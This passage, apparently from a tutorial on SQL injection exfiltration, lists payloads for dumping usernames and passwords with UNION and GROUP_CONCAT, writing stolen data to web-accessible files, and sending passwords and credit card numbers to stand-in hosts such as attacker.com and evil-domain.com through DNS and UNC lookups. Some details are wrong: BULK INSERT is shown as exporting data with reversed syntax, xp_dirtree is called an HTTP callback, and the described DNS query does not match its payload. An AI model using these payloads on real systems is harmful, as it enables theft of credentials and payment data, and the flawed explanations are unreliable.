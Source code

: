 **Limitations**: Requires identical column counts and compatible data types between the original and injected queries.  

#### **b. File Write Operations**  
Attackers write stolen data to files accessible via HTTP or network shares.  

| **Database** | **Command**                                                                 | **Example**                                                                 |  
|--------------|-----------------------------------------------------------------------------|-----------------------------------------------------------------------------|  
| **MySQL**    | `SELECT * INTO OUTFILE`                                                    | `SELECT * FROM users INTO OUTFILE '/var/www/stolen_data.txt';`                |  
| **MSSQL**    | `BULK INSERT` or `xp_cmdshell`                                              | `BULK INSERT \\attacker.com\data FROM 'C:\stolen.csv' WITH (FIELDTERMINATOR=',');` |  

**Access**: The file is retrieved via HTTP (`http://target.com/stolen_data.txt`) or network protocols.  

#### **c. Group Concatenation**  
Merges multiple columns into a single string to bypass column-count mismatches.  

```sql  
' UNION SELECT GROUP_CONCAT(username, ':', password), NULL FROM users--  
```  

| **Function**       | **Purpose**                                                                 | **Example**                                                                 |  
|---------------------|-----------------------------------------------------------------------------|-----------------------------------------------------------------------------|  
| `GROUP_CONCAT()`    | Combines rows/columns into a single string                                  | `GROUP_CONCAT(username, 0x3a, password SEPARATOR ',')`                        |  
| `CONCAT_WS()`       | Concatenates with a specified separator                                    | `CONCAT_WS(':', column1, column2)`                                           |  

---

### **2. Out-of-Band (OOB) Exfiltration**  
OOB methods bypass application interfaces by sending data directly to external servers.  

#### **a. DNS Tunneling**  
Triggers DNS requests containing stolen data.  

```sql  
SELECT LOAD_FILE(CONCAT('\\evil-domain.com\\', (SELECT credit_card FROM payments)));  
```  
This generates a DNS query for `creditcard1234.evildomain.com`, leaking the credit card number.  

#### **b. HTTP Callbacks**  
Uses database features to send data to attacker-controlled servers.  

```sql  
EXEC master..xp_dirtree '\\attacker.com\?data=' + (SELECT password FROM users);  
```  
The `\\attacker.com\?data=` path includes the stolen password in the request.  

#### **c. Time-Based Encoding**  
Encodes data as delays (e.g., `SLEEP()`), allowing binary extraction.  

```sql  
' AND IF(SUBSTRING(password,1,1)=CHAR(112), SLEEP(5), 0)--  
```  
A 5-second delay indicates the first character is `p` (ASCII 112).  
